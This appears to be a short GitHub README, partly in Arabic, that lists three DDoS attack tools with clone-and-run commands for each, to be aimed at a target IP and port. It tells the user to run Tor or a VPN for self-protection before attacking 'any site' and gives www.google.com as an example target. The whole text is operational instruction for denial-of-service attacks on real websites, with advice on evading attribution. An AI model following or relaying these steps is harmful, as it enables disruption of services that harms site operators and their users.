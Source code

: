# Mazen
This Files Mazen Crossman
1) DDos-Attack 

*          git clone https://github.com/Ha3MrX/DDos-Attack

*         cd DDos-Attack

*          python ddos-attack.py
---------------------------------------------------------
2) Ddos-Attack 2

*          git clone https://github.com/OrangBias4/ORBIS-DDOS

*         cd ORBIS-DDOS

*         python2 orbis.py Ip Port
---------------------------------------------------------
3)  LOIS للهجوم على المواقع
ولكن قبل تشغيلها واستخدامها من اجل الهجوم على أي موقع يجب أن تؤمن الحمايه لنفسك من خلال
 تشغيل برنامج vpn يجب ان يكون لديك 
 ---
 LOIS to attack websites
But before you run it and use it to attack any site, you must secure protection for yourself through
  To run a vpn you must have a vpn
  
  *        pkg install tor
  
  *        tor
  
  *        pkg update
  
  *        pkg upgrade
  
  *        pkg install git python python2
  
  *        git clone https://github.com/CyberMrlink/Ddos404
  
  *        ls
  
  *        cd Ddos404
  
  *        ls
  
  *         chmod +x
  
  *          ls
  
  *          ./ddos.sh
  
  *         www.google.com
  
  *        ip    Port
      
